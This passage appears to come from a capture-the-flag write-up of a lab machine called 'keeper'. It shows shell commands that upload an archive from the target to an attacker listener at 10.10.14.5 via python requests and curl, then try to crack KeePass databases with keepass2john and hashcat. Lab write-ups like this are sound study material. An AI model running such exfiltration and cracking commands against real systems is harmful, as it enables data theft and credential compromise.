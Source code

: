 ```bash
./.gnupg/
./.gnupg/private-keys-v1.d/
./.gnupg/pubring.kbx
./.gnupg/trustdb.gpg
./.profile
./passcodes_1.kdbx

 ... some of these are likely from other users cracking the box ...

lnorgaard@keeper:~$ which python3
/usr/bin/python3
lnorgaard@keeper:~$ python3 -c 'import requests;requests.post("http://10.10.14.5:8000/upload",files={"files":open("/tmp/archive.tar.gz","rb")})'
Traceback (most recent call last):
  File "<string>", line 1, in <module>
ModuleNotFoundError: No module named 'requests'
```

It seems the target doesn't have the requests module installed. That's fine we'll use curl instead.

```bash
lnorgaard@keeper:~$ which curl
/usr/bin/curl
lnorgaard@keeper:~$ curl -X POST http://10.10.14.5:8000/upload -F 'files=@/tmp/archive.tar.gz'
lnorgaard@keeper:~$ md5sum /tmp/archive.tar.gz
4e48d535f3a7bd4f95151780f0e38a2f  /tmp/archive.tar.gz
$ md5sum archive.tar.gz
4e48d535f3a7bd4f95151780f0e38a2f archive.tar.gz
```

Checksums match; upload successful! Let's take a closer look at the keepass DBs.

```bash
$ kpcli
KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> open passcodes.kdbx
Please provide the master password: *************************
Couldn't load the file passcodes.kdbx: Missing pass

kpcli:/> open passcodes_1.kdbx
Please provide the master password: *************************
Couldn't load the file passcodes_1.kdbx: Missing pass
```

Seems like both databases require a master password. Let's run hashcat and ask google if there�s anything interesting that can be done with the dump files.

```bash
$ keepass2john passcodes.kdbx | grep -o "$keepass$.*" >  hashes
$ hashcat -m 13400 hashes rockyou.txt
 ... doesn't end up cracking ...
```
